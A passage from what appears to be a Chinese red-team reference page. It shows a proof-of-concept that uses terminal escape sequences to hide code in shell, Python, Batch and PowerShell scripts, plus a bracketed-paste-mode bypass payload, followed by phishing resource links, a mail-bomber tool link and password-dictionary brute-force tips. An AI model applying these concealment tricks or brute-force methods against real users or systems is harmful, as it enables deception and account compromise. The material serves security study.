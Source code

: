 **poc**
```bash
# linux
echo -e '#!/bin/sh\n\necho "evil!"\nexit 0\n\033[2Aecho "Hello World!"\n' > script.sh
chmod a+x script.sh

# python
echo -e '#!/usr/bin/python\n\nprint "evil!";\nexit(0);\n#\033[2A\033[1Dprint "Hello World!";\n' > script.py
chmod a+x script.py

# Batch
echo -e '@echo off\n\r\n\recho evil!\r\n::\033[2D  \033[A\033[2Decho Hello World!' > script.bat

# PowerShell
echo -e 'write-host "evil!"\r\n#\033[A\033[2Dwrite-host "Hello World!"' > script.ps1
```

**Bypassing the Bracket Paste Mode**
```bash
ESC[201~clear; echo "Bypass Bracketed Paste Mode"
```

### Email钓鱼

**相关文章**
- [关于电子邮件诈骗的一些分析](http://www.4hou.com/web/13931.html)
- [一个邮箱账号的展开式](https://www.freebuf.com/articles/others-articles/213744.html)
- [记一次钓鱼测试](https://chriskalix.github.io/post/bKTmLyJeL/)

**相关工具**
- [邮件轰炸机-垃圾邮件发送器](http://www.skyju.cc/mailhzj.html)

**SMTP**
- 见 [Protocol-Exploits](./RedTeam/协议安全/Protocol-Exploits.md#smtp) SMTP 部分

### office钓鱼

**相关文章**
- [攻防演练对抗赛之初识文件钓鱼](https://www.freebuf.com/articles/network/219999.html)

**漏洞利用**
- [Office漏洞利用](./RedTeam/软件服务安全/DesktopApps-Exploits.md#office)

---

## 爆破

网络中有需要登陆的地方即需要口令或密码，特别是网站管理后台和邮箱，如果使用弱口令，一旦被人猜到或破解，就如同拿到了钥匙，随意进出，网络资产将面临巨大的风险。当然,不只是后台,一些 api 端点存在的认证，jwt密钥，等等，都存在爆破的可能

### 字典

**Tips**
1. 按场景来看,敏感的场景,目标或业务量大的场景,字典不是越多越好,力求精简,求快,不要把功夫全放在 fuzz 上,条件允许的话就针对目标专门定制一个字典,这可能涉及到一些社工的技巧.
2. 如果没有安全设备,那就随便搞吧,先来个 [TOP10]*[TOP10000] 再说.
3. 字典还是自己收集整理的最好,有空的话,建议把 github 上的自己分分类,把什么 `Hentai`、`pussy`、`dick` 这种奇奇怪怪的密码早点删了🤣.
4. 数据库是管理字典的好帮手,善用统计、去重功能有奇效.
5. 很多厂商设备默认口令可以在这个网站找到 https://default-password.info/
6. 要想在实战中用好爆破的各种攻击技术一定要学好加密知识,不要 "练拳不练功，到老一场空"
